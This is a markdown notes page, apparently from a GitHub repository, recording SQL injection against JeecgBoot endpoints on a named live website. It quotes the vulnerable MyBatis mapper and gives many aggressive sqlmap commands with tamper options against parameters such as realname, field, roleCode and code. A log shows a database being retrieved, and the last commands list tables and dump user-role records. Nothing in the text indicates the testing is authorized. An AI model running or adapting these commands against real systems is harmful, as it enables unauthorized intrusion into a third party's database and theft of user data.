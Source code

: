 # test inject sql

when the code review on the github, here have some open issue about the sql inject. following is the links:

- [CVE-2022-22880](https://github.com/jeecgboot/JeecgBoot/issues/3347)
- [sys/dict/loadtreedata](https://github.com/jeecgboot/JeecgBoot/issues/1887)

## CVE-2022-22880

`GET https://web.antgst.com/antgst/sys/user/queryUserByDepId?id=57197590443c44f083d42ae24ef26a2c&realname=`

the `realname` mapper is:

```xml
<select id="queryDepartUserList" resultType="org.jeecg.modules.system.entity.SysUser">
    select a.* from sys_user a
    join sys_user_depart b on b.user_id = a.id
    join sys_depart c on b.dep_id = c.id
    where a.del_flag = 0 and c.org_code like '${orgCode}%'
    <if test="realname!=null and realname!=''">
        and a.realname like '%${realname}%'
    </if>
</select>
```

The MyBatis query uses `${realname}` instead of `#{realname}`, `${}` does direct string interpolation without escaping.

### request

the normal request is

```json
{
    "success": true,
    "message": "操作成功！",
    "code": 0,
    "result": [
        {
            "id": "e888946e0213c9a4685bd94e7f1563ae",
            "username": "SS678",
            "realName": null,
            "avatar": null,
            "orgCode": null,
            "status": 1,
            "drTimeout": 0,
            "workNo": null,
            "post": null,
            "notes": null,
            "createBy": "ANT_July",
            "createTime": "2024-03-18 15:17:27",
            "updateBy": null,
            "updateTime": null,
            "activitiSync": null,
            "departId": "a16ca6032b3745f095b80c510aba4af5",
            "departName": "SS678",
            "accountType": 4
        }
    ],
    "timestamp": 1734502811142
}
```

### try exploit

use the sqlmap to test the sql inject

```bash
sqlmap -r queryUserByDepId.txt \
-p realname \
--level=5 \
--risk=3 \
--random-agent \
--dbs \
--threads=10 \
--batch \
--hex \
--dbms=MySQL \
--technique=BEUST \
-t trace.txt  \
--tamper=space2comment \
--privileges
```

## sendRecordList

https://web.antgst.com/antgst/sms/otpPremium/channel/sendRecordList?_t=1734511889&column=createTime&order=desc&field=id,,countryName,smsFrom,smsTo,message,sendResult,smsCount,smsFee,sendTime,action&pageNo=1&pageSize=30

```bash
sqlmap -r sendRecordList.txt \
-p field \
--level=5 \
--risk=3 \
--random-agent \
--dbs \
--threads=10 \
--batch \
--hex \
--dbms=MySQL \
--technique=BEUST \
-t sendRecordList.trace.txt  \
--tamper=space2comment \
--privileges
```

## getUserDepartList

```bash
sqlmap -r getUserDepartList.txt \
-p roleCode \
--level=5 \
--risk=3 \
--random-agent \
--dbs \
--threads=10 \
--batch \
--hex \
--dbms=MySQL \
--technique=BEUST \
-t trace.txt  \
--tamper=space2comment \
--privileges
```

## loadtreedata

sqlmap to exploit the `loadtreedata` api

```bash
sqlmap -r loadtreedata.txt \
-p code \
--level=5 \
--risk=3 \
--random-agent \
--dbs \
--threads=10 \
--batch \
-t trace.txt 
```

here have the sql check on the websit, the response is:

```json
{"success":false,"message":"服务器开小差了，请尽快联系服务人员","code":500,"result":null,"timestamp":1734507668132}
```

```bash
sqlmap -r loadtreedata.txt \
-p code \
--level=5 \
--risk=3 \
--random-agent \
--dbs \
--batch \
--threads=10 \
--hex \
--dbms=MySQL \
--technique=BEUST \
-t trace.txt  \
--tamper=space2comment \
--privileges
```

when we get the sqlmap result:

```log
[15:49:41] [INFO] retrieved: intl_sys_db             
available databases [1]:
[*] intl_sys_db

[15:49:41] [INFO] fetched data logged to text files under '/home/xjh/.local/share/sqlmap/output/web.antgst.com'
```

the `intl_sys_db` is the database name. then we can use the sqlmap to find other database name.


```bash
sqlmap -r loadtreedata.txt \
-p code \
--level=5 \
--risk=3 \
--random-agent \
-D jeecg-boot \
--tables \
--threads=10 \
--batch \
--hex
```


```bash
sqlmap -r loadtreedata.txt \
-p code \
--level=5 \
--risk=3 \
--random-agent \
-D jeecg-boot \
-T sys_user_role \
--dump \
--start=1 \
--stop=100 \
--batch \
--tamper=space2comment,between \
--threads=10
```
